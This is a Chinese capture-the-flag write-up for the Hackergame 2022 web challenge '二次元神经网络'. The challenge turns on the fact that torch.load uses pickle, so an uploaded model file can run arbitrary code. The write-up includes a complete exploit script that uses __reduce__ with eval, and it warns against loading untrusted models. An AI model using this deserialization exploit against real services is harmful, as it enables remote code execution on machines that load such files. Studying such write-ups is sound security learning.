


# 二次元神经网络

题解作者：[volltin](https://github.com/volltin)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：250

天冷极了，下着雪，又快黑了。这是一年的最后一天——大年夜。在这又冷又黑的晚上，一个没有 GPU、没有 TPU 的小女孩，在街上缓缓地走着。她从家里出来的时候还带着捡垃圾捡来的 E3 处理器，但是有什么用呢？跑不动 Stable Diffusion，也跑不动 NovelAI。她也想用自己的处理器训练一个神经网络，生成一些二次元的图片。

于是她配置好了 PyTorch 1.9.1，定义了一个极其简单的模型，用自己收集的 10 张二次元图片和对应的标签开始了训练。

```
SimpleGenerativeModel(
  (tag_encoder): TagEncoder(
    (embedding): Embedding(63, 8, padding_idx=0)
  )
  (model): Sequential(
    (0): Linear(in_features=16, out_features=8, bias=True)
    (1): ReLU()
    (2): Linear(in_features=8, out_features=8, bias=True)
    (3): ReLU()
    (4): Linear(in_features=8, out_features=64 * 64 * 3, bias=True)
    (5): Tanh()
  )
)
```

她在 CPU 上开始了第一个 epoch 的训练，loss 一直在下降，许多二次元图片重叠在一起，在向她眨眼睛。

她又开始了第二个 epoch，loss 越来越低，图片越来越精美，她的眼睛也越来越累，她的眼睛开始闭上了。

...

第二天清晨，这个小女孩坐在墙角里，两腮通红，嘴上带着微笑。新年的太阳升起来了，照在她小小的尸体上。

人们发现她时才知道，她的模型在 10 张图片上过拟合了，几乎没有误差。

（完）

听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

## 题解

tl;dr: 这道题目是 web 题，漏洞点在于 `torch.load` 调用了 `pickle` 模块，加载模型参数的过程是不安全的，通过构造特定的文件，可以达成任意命令执行。

之所以出这道题，是因为最近各种图片生成模型很火，有很多人可能会从网上下载一些模型，然后在自己电脑、实验室的服务器等地方 load and run，其实这是非常危险的，查看 PyTorch 的 [文档](https://pytorch.org/docs/stable/generated/torch.load.html) 也能看到 **Only load data you trust** 的警告。

从网站上得到附件 `2d_model.zip` 后，根据说明可以尝试上传 `checkpoint/model.pt`，这是一个稍微训练了一下的网络参数，结果不是很好，所以大概会得到类似的提示：

> 最大误差：0.05549 > 0.0005，没有达到要求。每张图片的误差（loss 值）：0.01418, 0.01349, 0.05549, 0.00977, 0.01611, 0.01215, 0.02244, 0.03020, 0.02355, 0.01839

接下来根据题目的提示「上传模型后将会由 `infer.py` 运行」，可以重点分析 `infer.py` 的内容，其中第 23 行：

```python
model.load_state_dict(torch.load(pt_file, map_location="cpu"))
```

是漏洞出现的地方，只要我们能够控制 `pt_file` 的值，就可以达成任意命令执行，利用方法和 `pickle.load` 完全相同，大家可以网上搜索。

第 43 行说明了我们应该把答案写入一个文件中：

```python
json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
```

所以只要将作为答案的真实图片直接写入即可，最后得到 payload 如下：

```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

# 加载正确答案
PIXEL_FILE="../files/dataset/pixels_10.pt"
predictions = torch.load(PIXEL_FILE, map_location="cpu")

# 生成 base64 格式的数据
gen_imgs = []
for i in range(10):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

content = json.dumps({"gen_imgs_b64": gen_imgs})

# 构造要执行的 python 代码
args = "open('/tmp/result.json', 'w').write('" + content.replace('\\', '\\\\').replace("'", "\\'") + "')"

# 通过 __reduce__ 方法执行 python 代码
class Exploit(object):
    def __reduce__(self):
        return (eval, (args,))

torch.save(Exploit(), "model_exp.pt")
```

提交生成的 `model_exp.pt`，即可得到 flag。

在这道题中，由于 eval 返回值不是一个合法的 `state_dict`，所以后续的代码会报错，但是没有关系，web 前端调用这个代码时会忽略异常，不管是否有异常，执行之后去读取 `/tmp/result.json`。

## 统计信息

选手们提交的模型的误差最低为 0.001。

（更多统计敬请期待）

## 附注

@taoky: 

用 `torch.load()` 来 RCE 的题目其实我去年就有这个想法，但是当时因为种种原因没有实现。最近适逢 Diffusion 模型大火，豆豆和我一合计，就搞了这道题。我不太懂机器学习，所以我主要做的是 web 框架的代码实现，以及……数据集里那十张图片和标签也是我搞的。不幸的是，我也既没有 GPU，也没有 TPU，所以标签都是自己凭感觉写的。

选图的时候，从自己看过的番剧里面选了一些名场面（[十张图的内容](src/web/app/static/images/)）。~~不过比赛的时候 [Elsa Granger](https://github.com/zeyugao) 问我为什么这 10 张图没有每张都选不一样的，这样就能并发地安利十个番了~~。

在最后：**快点去看《摇曳露营》《莉可丽丝》[^1]《LoveLive 虹咲学园学园偶像同好会》《Slow Loop》《孤独摇滚》[^2]和《街角魔族》（按图片顺序排序）！**

emm...



《向山进发》（十月是第四季放送）也很好看！甚至我某台 VPS 的 motd 也是 aoi：



[^1]: 我不是很推荐《莉可丽丝》的剧情，但是名场面真的有点多，所以我放了两张。
[^2]: 十月新番。